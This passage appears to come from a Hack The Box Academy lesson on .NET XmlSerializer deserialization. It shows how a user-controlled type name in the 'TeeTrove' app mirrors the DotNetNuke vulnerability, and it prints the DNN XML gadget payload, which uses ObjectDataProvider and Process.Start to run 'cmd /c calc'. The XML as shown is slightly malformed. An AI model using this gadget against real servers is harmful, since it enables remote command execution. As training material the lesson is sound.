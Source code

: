 ![image](https://academy.hackthebox.com/storage/modules/240/3/23.png)

Looking at the source code of the website, the expected type is clearly `TeeTrove.Models.Tee`, however, we should notice that this class name is under our control as it is sent during the request.

![image](https://academy.hackthebox.com/storage/modules/240/3/24.png)

[DotNetNuke](https://www.dnnsoftware.com/), a popular `.NET` `CMS`, was [vulnerable](https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization) to a deserialization attack in a very similar manner a few years ago (refer to the [screenshot](https://github.com/dnnsoftware/Dnn.Platform/blob/v9.9.1/DNN%20Platform/Library/Common/Utilities/XmlUtils.cs#L155) below). Essentially, if an attacker can control the type with which the `XmlSerializer` is initialized, then the deserialization is susceptible to exploitation.

![image](https://academy.hackthebox.com/storage/modules/240/3/25.png)

## Developing the Exploit

#### Taking a Look at the DNN Payload

At this point, based on the previous section, we might assume that developing the exploit is as simple as serializing an `ObjectDataProvider` once again to get `command execution`, but unfortunately it is not as straightforward this time. Reading further through the [blog post](https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization) detailing the similar DotNetNuke deserialization vulnerability, we notice that the while the XML payload does contain an `ObjectDataProvider`, it is wrapped inside an `ExpandedWrapperOfXamlReaderObjectDataProvider` tag.

```xml
<
<key="pentest-tools.com" type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.ObjectStateFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider>
    <ExpandedElement/>
    <MethodName>Parse</MethodName>
    <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
        <ResourceDictionary xmlns='http://schemas.microsoft.com/winfx/2006/xaml/presentation' xmlns:x='http://schemas.microsoft.com/winfx/2006/xaml' xmlns:System='clr-namespace:System;assembly=mscorlib' xmlns:Diag='clr-namespace:System.Diagnostics;assembly=system'>
            <ObjectDataProvider x:Key='LaunchCmd' ObjectType='{x:Type Diag:Process}' MethodName='Start'>
                <ObjectDataProvider.MethodParameters>
                    <System:String>cmd</System:String>
                    <System:String>/c calc</System:String>
                </ObjectDataProvider.MethodParameters>
            </ObjectDataProvider>
        </ResourceDictionary>
    </anyType>
</MethodParameters>
<ObjectInstance xsi:type="XamlReader"></ObjectInstance>
</ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
</item>
</profile>

```
